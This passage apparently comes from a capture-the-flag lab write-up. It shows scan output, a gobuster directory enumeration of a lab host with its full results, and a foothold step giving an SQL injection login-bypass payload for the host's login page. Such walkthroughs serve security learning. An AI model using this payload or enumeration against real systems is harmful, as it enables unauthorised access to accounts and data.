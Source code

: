 ```console
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path

```console
$ gobuster dir -u http://10.10.10.185/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.185/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 4221]
/assets               (Status: 301) [Size: 313] [--> http://10.10.10.185/assets/]
/upload.php           (Status: 302) [Size: 2957] [--> login.php]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.185/images/]
/index.php            (Status: 200) [Size: 4053]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## Foothold

### SQL Injection

- `http://10.10.10.185/login.php` poc: `admin' or 1=1 -- -`
